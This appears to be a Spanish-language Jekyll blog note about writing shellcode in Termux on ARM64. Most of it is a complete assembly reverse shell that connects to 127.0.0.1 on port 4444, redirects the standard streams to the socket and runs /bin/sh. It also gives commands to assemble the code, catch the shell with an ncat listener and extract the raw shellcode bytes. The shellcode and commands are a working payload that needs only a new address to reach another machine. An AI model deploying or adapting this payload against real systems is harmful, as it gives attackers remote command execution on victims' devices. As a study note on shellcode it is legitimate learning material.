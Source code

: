 ```yaml
---
comments: true
layout: single
title: shellcode-termux-arm
date: 2025-01-26
classes: wide
header:
  teaser: /assets/images/
  teaser_home_page: true
categories:
  - assamble
tags:
  - notas 
  - termux
---
```





```sh
bat $PREFIX/include/asm-generic/unistd.h 
```


```asm
.global _start

.section .text
_start:
    // set the frame pointer
    mov fp, sp

    // clear required registers
    eor x0, x0, x0
    eor x1, x1, x1
    eor x2, x2, x2

    // create sockaddr_in struct
    sub sp, sp, #32      // Reservar espacio en la pila (32 bytes para alineación)
    str xzr, [sp, #16]   // 8 bytes de padding
    str xzr, [sp, #8]    // 8 bytes más de padding

    // Configurar sin_family (AF_INET = 2)
    mov x1, #0x02        // AF_INET
    strh w1, [sp, #0]    // Almacenar sin_family en el offset 0

    // Configurar sin_port (4444 en orden de red)
    mov x1, #0x115c      // Puerto 4444 en orden de host (big-endian)
    rev16 w1, w1         // Convertir a orden de red (big-endian)
    strh w1, [sp, #2]    // Almacenar sin_port en el offset 2

    // Configurar sin_addr (127.0.0.1 en orden de red)
    ldr x1, =0x0100007f  // 127.0.0.1 en orden de red (big-endian)
    str w1, [sp, #4]     // Almacenar sin_addr en el offset 4

    // call socket(domain, type, protocol)
    mov x0, #2           // AF_INET
    mov x1, #1           // SOCK_STREAM
    mov x2, #0           // protocol
    mov x8, #198         // socket syscall number (198 for ARM64)
    svc #0
    cmp x0, #0           // Verificar si socket() falló
    b.lt _exit           // Si falló, salir
    mov x4, x0           // x4: socket file descriptor

    // call connect(sockfd, sockaddr, socklen_t)
    mov x0, x4           // sockfd
    mov x1, sp           // sockaddr
    mov x2, #16          // socklen_t
    mov x8, #203         // connect syscall number (203 for ARM64)
    svc #0
    cmp x0, #0           // Verificar si connect() falló
    b.lt _exit           // Si falló, salir

    // call dup2 to redirect STDIN, STDOUT and STDERR
    mov x5, #3           // counter for STDIN, STDOUT, STDERR
dup_loop:
    mov x0, x4           // sockfd
    sub x5, x5, #1       // decrement counter
    mov x1, x5           // newfd
    mov x8, #24          // dup2 syscall number (24 for ARM64)
    svc #0
    cmp x5, #0
    b.ne dup_loop

    // spawn /bin/sh using execve
    // x1 and x2 are 0 at this point
    eor x0, x0, x0
    eor x1, x1, x1
    eor x2, x2, x2
    sub sp, sp, #16       // Reservar espacio en la pila (16 bytes para alineación)
    str xzr, [sp, #8]    // Push null terminator
    ldr x0, =0x68732f2f6e69622f  // "/bin//sh" in little-endian
    str x0, [sp, #0]     // Push "/bin//sh"
    mov x0, sp           // [x0]: pointer to "/bin//sh"
    mov x8, #221         // execve syscall number (221 for ARM64)
    svc #0

_exit:
    // Exit the program
    mov x8, #93          // exit syscall number (93 for ARM64)
    svc #0 
```

## Compilation 

```sh
as -o shellcode.o shellcode.s
ld -o shellcode shellcode.o
```

### Comprobación 

```sh
ncat -lvp 4444
```

Then  

```sh
./shellcode 
```
 
### Optener el código magina
**Extraemos los bytecode**
```sh
objcopy -O binary shellcode shellcode.bin   
```

**Extraemos byte code de binario
```sh
hexdump -v -e '"\\" 1/1 "x%02x"' shellcode.bin; echo    
```

El resultado se compara con el resultado de la 2 columna:
```sh
objdump -d shellcode
```


{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}


